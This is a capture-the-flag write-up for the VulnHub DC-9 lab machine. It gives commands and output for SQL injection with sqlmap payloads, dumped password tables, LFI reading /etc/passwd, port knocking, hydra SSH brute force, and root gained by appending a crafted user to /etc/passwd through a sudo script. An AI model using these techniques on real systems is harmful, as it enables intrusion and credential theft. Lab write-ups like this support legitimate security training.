



# VulnHub > DC9

**About Release**

* Name: DC: 9
* Date release: 29 Dec 2019
* Author: DCAU
* Series: DC

**Download**

* DC-9.zip (Size: 700 MB)
* Download: http://www.five86.com/downloads/DC-9.zip
* Download (Mirror): https://download.vulnhub.com/dc/DC-9.zip
* Download (Torrent): https://download.vulnhub.com/dc/DC-9.zip.torrent ([Magnet](magnet:?xt=urn:btih:28D768EDF0D40B9EC79FBC25EF52295B42FD7F5D&dn=DC-9.zip&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

**Description**

DC-9 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

# Initial foothold

## Services Enumeration

~~~
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome
~~~

## Web Enumeration

Connecting with the browser on the web port shows a custom web site with links to:
* Home
* Display All Records: shows the list of existing contacts
* Search: search for contacts
* Manage: manage contacts (protected by authentication)

# SQL injection vulnerability

## Databases

The search form is vulnerable to SQL injection. Using `sqlmap`, we can list the databases:

~~~
kali@kali:/data/DC_9/files$ sqlmap -r results.xml --dbs

[REDACTED]

---
Parameter: search (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=mary' AND 5291=5291 AND 'isKR'='isKR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=mary' AND (SELECT 6708 FROM (SELECT(SLEEP(5)))mJTm) AND 'rnBk'='rnBk

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: search=mary' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7170717171,0x4a6f6e7579464349685177686f6e52737a61655173797878796c4645486a6e514849645374767a47,0x7176717171),NULL-- -
---
[07:28:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[07:28:02] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users

[07:28:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/dc-9'

[*] ending @ 07:28:02 /2020-10-12/
~~~

## Staff database

The `Staff` database contains 2 tables:

~~~
kali@kali:/data/DC_9/files$ sqlmap -r results.xml -D Staff --tables

[REDACTED]

Database: Staff
[2 tables]
+--------------+
| StaffDetails |
| Users        |
+--------------+

[REDACTED]
~~~

Let's dump the `Users` table:

~~~
kali@kali:/data/DC_9/files$ sqlmap -r results.xml -D Staff --table Users --dump

[REDACTED]

Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+

[REDACTED]

~~~

The MD5 hash can be found [here](https://crackstation.net/) and corresponds to the password `transorbital1`.

## users database

Now, let's dump the other database (`users`):

~~~
kali@kali:/data/DC_9/files$ sqlmap -r results.xml -D users --dump

[REDACTED]

Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+

[REDACTED]
~~~

# Local File Inclusion (LFI)

## LFI vulnerability

Now, let's authenticate on the website with `admin:transorbital1`. We are redirected to `manage.php` where the following error message (`file does not exist`) is displayed:

The page is vulnerable to a LFI vulnerability: `http://dc-9/manage.php?file=../../../../../etc/passwd`

None of my attempts to make a reverse shell from the LFI worked.

## Port knocking configuration file

You'll notice that the initial port scan did not reveal a SSH port, which is quite unusual for a web server. Hence the idea that the port may be hidden using port knocking.

Taking advantage of the LFI vulnerability, we can access the `knockd.conf` file:

It reveals the unlock sequence:

~~~
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
~~~

# SSH access

## Unlock the SSH port

Let's compose the sequence to unlock the SSH port:

~~~
$ for i in 7469 8475 9842; do nmap -Pn --host-timeout 25 --max-retries 0 -p $i dc-9;done
$ nmap -p 22 dc-9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 08:07 CEST
Nmap scan report for dc-9 (172.16.222.164)
Host is up (0.00050s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.03 seconds

~~~

## Brute force the SSH access

Let's build `users.txt` and `passwords.txt` files from the `users.UserDetails` table of the previous SQL injection exploit.

Now, let's brute force the SSH service:

~~~
kali@kali:/data/DC_9/files$ hydra -L users.txt -P passwords.txt ssh://dc-9
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-12 08:19:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 289 login tries (l:17/p:17), ~19 tries per task
[DATA] attacking ssh://dc-9:22/
[22][ssh] host: dc-9   login: chandlerb   password: UrAG0D!
[22][ssh] host: dc-9   login: joeyt   password: Passw0rd
[22][ssh] host: dc-9   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-12 08:20:06
~~~

## Connect as `chandlerb`

3 valid combinations are found. Let's test the first one:

~~~
$ sshpass -p "UrAG0D!" ssh chandlerb@dc-9
~~~

Nothing interesting in chandlerb's home:

~~~
chandlerb@dc-9:/home$ cd
chandlerb@dc-9:~$ ls -la
total 12
drwx------  3 chandlerb chandlerb 4096 Oct 12 16:18 .
drwxr-xr-x 19 root      root      4096 Dec 29  2019 ..
lrwxrwxrwx  1 chandlerb chandlerb    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 chandlerb chandlerb 4096 Oct 12 16:18 .gnupg
~~~

Let's switch to joeyt.

## Connect as `joeyt`

Nothing interesting in joeyt's home:

~~~
chandlerb@dc-9:~$ su joeyt
Password: 
joeyt@dc-9:/home/chandlerb$ ls -la /home/joeyt
total 12
drwx------  3 joeyt joeyt 4096 Oct 12 16:18 .
drwxr-xr-x 19 root  root  4096 Dec 29  2019 ..
lrwxrwxrwx  1 joeyt joeyt    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 joeyt joeyt 4096 Oct 12 16:18 .gnupg
~~~

## Connect as `janitor`

Let's try janitor. Much more interesting!

~~~
chandlerb@dc-9:~$ su janitor
Password: 
janitor@dc-9:/home/chandlerb$ cd
janitor@dc-9:~$ ls -la
total 16
drwx------  4 janitor janitor 4096 Oct 12 16:18 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 janitor janitor 4096 Oct 12 16:18 .gnupg
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin
janitor@dc-9:~$ ls -la .secrets-for-putin
total 12
drwx------ 2 janitor janitor 4096 Dec 29  2019 .
drwx------ 4 janitor janitor 4096 Oct 12 16:18 ..
-rwx------ 1 janitor janitor   66 Dec 29  2019 passwords-found-on-post-it-notes.txt
janitor@dc-9:~$ cat .secrets-for-putin/passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
janitor@dc-9:~$ 
~~~

## Connect as `fredf`

Save these passwords in `passwords2.txt` and let's do a brute force attack again.

~~~
kali@kali:/data/DC_9/files$ hydra -L users.txt -P passwords2.txt ssh://dc-9
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-12 08:31:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 102 login tries (l:17/p:6), ~7 tries per task
[DATA] attacking ssh://dc-9:22/
[22][ssh] host: dc-9   login: fredf   password: B4-Tru3-001
[22][ssh] host: dc-9   login: joeyt   password: Passw0rd
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-12 08:31:31
~~~

Connect as `fredf`. Checking the privileges will reveal a possible privilege escalation:

~~~
janitor@dc-9:~$ su fredf
Password: 
fredf@dc-9:/home/janitor$ cd
fredf@dc-9:~$ ls -la
total 12
drwx------  3 fredf fredf 4096 Oct 12 16:31 .
drwxr-xr-x 19 root  root  4096 Dec 29  2019 ..
lrwxrwxrwx  1 fredf fredf    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 fredf fredf 4096 Oct 12 16:31 .gnupg
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
~~~

Running the `test` executable reveals that this is a python executable that seems to read a file and append the content to another file:

~~~
fredf@dc-9:/opt/devstuff$ sudo /opt/devstuff/dist/test/test
Usage: python test.py read append
~~~

# Privilege escalation

## Source code of the `test` executable

Checking the files in the `/opt/devstuff` directory reveals the source code of the executable that we can run as `root` using `sudo`:

~~~
fredf@dc-9:/opt/devstuff$ cat test.py 
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
~~~

This executable will read the content of a file and will concatenate its content to another file, as `root`.

## Exploit

Let's add some content to `/etc/passwd` to create a super user:

~~~
$ openssl passwd -1 -salt superman myAwesomePassword
$1$superman$L3/0ChJrXfiEGqhA5WDra.
$ printf 'superman:$1$superman$L3/0ChJrXfiEGqhA5WDra.:0:0:root:/root:/bin/bash\n' > /tmp/superman
$ sudo /opt/devstuff/dist/test/test /tmp/superman /etc/passwd
~~~

## Privileged shell

And now, let's switch to our new user:

~~~
fredf@dc-9:/opt/devstuff$ su superman
Password: 
root@dc-9:/opt/devstuff# id
uid=0(root) gid=0(root) groups=0(root)
~~~

# Root flag

Let's get the root flag:

~~~
root@dc-9:/opt/devstuff# cd /root
root@dc-9:~# ls -la
total 32
drwx------  5 root root 4096 Dec 29  2019 .
drwxr-xr-x 18 root root 4096 Dec 29  2019 ..
lrwxrwxrwx  1 root root    9 Dec 29  2019 .bash_history -> /dev/null
-rwx------  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Dec 29  2019 .cache
drwx------  3 root root 4096 Dec 29  2019 .gnupg
drwx------  3 root root 4096 Dec 29  2019 .local
-rwx------  1 root root  148 Aug 18  2015 .profile
-rwx------  1 root root 1821 Dec 29  2019 theflag.txt
root@dc-9:~# cat theflag.txt

███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.

root@dc-9:~# 
~~~
